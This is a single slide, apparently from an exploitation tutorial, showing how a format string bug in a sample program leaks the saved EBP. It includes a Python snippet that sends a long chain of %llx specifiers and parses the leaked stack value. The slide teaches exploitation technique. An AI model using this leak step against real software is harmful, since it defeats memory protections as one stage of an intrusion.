

# Memleak
We need the value of EBP, so we going to use a memleak.  It can be achieved  in different ways, depending on the target program (e.g.: overwriting parameters to printf-like functions, or if the vulnerability is a format string, which is our sample case)

To calculate the EBP_PREVIOUS we use %llx (format string), so we use 4 bytes of space in the buffer and advance the stack pointer in 8 bytes (so the premise for exploiting the sample program is to manage to leak the EBP):

...
#to get the value of ebp_previous
instr=r"%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%x%x"
proc.sendline(instr)
proc.expect("unknown command: [0-9a-f]* ([0-9a-f]*).*")
ebp_previous=int(proc.match.group(1),16)
info("\nfound ebp_previous = 0x%x" % ebp_previous)